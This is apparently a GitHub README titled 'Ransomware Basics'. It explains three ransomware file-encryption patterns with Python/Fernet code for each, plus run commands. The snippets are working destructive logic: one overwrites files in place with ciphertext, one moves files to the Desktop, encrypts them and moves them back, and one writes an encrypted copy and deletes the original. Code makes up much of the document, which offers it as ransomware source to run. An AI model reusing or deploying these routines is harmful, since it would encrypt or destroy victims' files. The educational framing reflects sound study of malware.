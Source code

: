 # Ransomware Basics

## How to install dependencies
``` 
python -m pip install fernet
```
## Category 1 
This type of ransomware opens a file, reads the contents and then writes the encryption into the file, thus overwriting it. This means that the content of the file is encrypted, but not necessarily the file itself, the file might not even be renamed.

#### Running Category 1
``` 
python cat1.py
```

#### [Sample](https://github.com/JACTheCreator/RansomwareBasics/blob/master/cat1.py)
```python
def encrypt_file(key, file_name):
    with open(file_name, 'rb') as f:
        plain_text = f.read()
    cipher_suite = Fernet(key)
    cipher_text = cipher_suite.encrypt(plain_text)

    with open(file_name, 'wb') as f:
        f.write(cipher_text)
```

#### Result
Coming soon

## Category 2 
The file to be encrypted is moved to another directory where the ransomware encrypts the file, then moves the same file back into the original directory. Here the file might also be renamed.

#### Running Category 2
``` 
python cat2.py
```

#### [Sample](https://github.com/JACTheCreator/RansomwareBasics/blob/master/cat2.py)
```python
def encrypt_file(key, file_name):
    new_file_location = os.path.join(os.path.join(os.environ['USERPROFILE']), 'Desktop') 
    new_file_location_path = new_file_location + '\\' + os.path.basename(file_name)
    os.rename(os.path.abspath(file_name), new_file_location_path)

    with open(new_file_location_path, 'rb') as f:
        plain_text = f.read()
    
    cipher_suite = Fernet(key)
    cipher_text = cipher_suite.encrypt(plain_text)

    with open(new_file_location_path, 'wb') as f:
        f.write(cipher_text)
    
    os.rename(new_file_location_path, os.path.abspath(file_name))
```

#### Result
Coming soon

## Category 3 
Here the original file is read and a new encrypted file is made based on the original, next the original is overwritten or deleted

#### Running Category 3
``` 
python cat3.py
```

#### [Sample](https://github.com/JACTheCreator/RansomwareBasics/blob/master/cat3.py)
```python
def encrypt_file(key, file_name):
    encrypted_file_name = os.path.splitext(file_name)[0] + '_encrypted' + os.path.splitext(file_name)[1]
    with open(file_name, 'rb') as f:
        with open(encrypted_file_name, 'wb') as f_enc:
            plain_text = f.read()
            f_enc.write(plain_text)

    cipher_suite = Fernet(key)
    cipher_text = cipher_suite.encrypt(plain_text)

    with open(encrypted_file_name, 'wb') as f:
        f.write(cipher_text)
    
    os.remove(file_name)
```

#### Result
Coming soon
